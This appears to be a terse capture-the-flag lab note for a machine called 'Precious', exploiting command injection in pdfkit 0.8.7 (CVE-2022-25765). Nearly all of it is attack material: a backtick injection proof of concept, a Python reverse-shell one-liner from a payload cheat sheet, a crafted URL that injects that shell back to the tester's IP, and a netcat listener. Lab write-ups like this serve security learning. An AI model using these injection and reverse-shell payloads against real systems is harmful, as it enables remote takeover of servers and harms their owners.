

# Precious

ip==10.10.11.189

tun0==10.10.14.26


`pdfkit v0.8.7`

CVE found


[Command Injection in pdfkit | CVE-2022-25765 | Snyk](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

```php
irb(main):060:0> puts PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").command wkhtmltopdf --quiet [...] 

"http://example.com/?name=%20`sleep 5`" - => nil

PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf # 5 seconds wait...
```

python建立http服务器
```
    python -m http.server 8080
```
[PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

http://10.10.14.26:8080/?name=%20`python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.26",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
```
```
nc -lvnp 1234 
```





